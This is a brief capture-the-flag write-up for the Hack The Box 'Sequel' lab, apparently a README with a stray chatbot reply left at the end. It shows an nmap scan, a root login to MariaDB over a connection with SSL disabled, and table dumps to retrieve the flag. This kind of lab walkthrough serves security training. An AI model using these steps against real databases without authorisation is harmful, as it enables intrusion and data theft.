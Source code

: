 # MariaDB Exploitation (HTB Sequel)

## Steps

### 1. Scan the target IP for open ports and services
```bash
nmap -sV -sC 10.129.191.64
````

### 2. Identify MariaDB Service

* Port `3306` is open and running **MariaDB** service.

### 3. Connect to the MariaDB Server

```bash
mysql -u root -h 10.129.191.64 -p --skip-ssl
```

* `-u root` → Username (root)
* `-h 10.129.191.64` → Host IP
* `-p` → Prompt for password
* `--skip-ssl` → Disable SSL for connection

### 4. Explore the Database

Once connected:

```sql
SHOW DATABASES;                  -- List all databases
USE {database_name};              -- Select a database
SHOW TABLES;                      -- List tables in the current database
SELECT * FROM {table_name};       -- View all data in a table
```

### 5. Retrieve the Flag

From the accessible tables, extract the flag or any sensitive data:

```sql
SELECT * FROM flag_table;
```

---

**💡 Note:** Always ensure you have permission before performing database exploitation. This process was done in a controlled **HTB (Hack The Box)** lab environment.

```

If you want, I can also make it **GitHub-styled with badges and a table of contents** so it looks more professional. That way it will stand out in your repo.
```

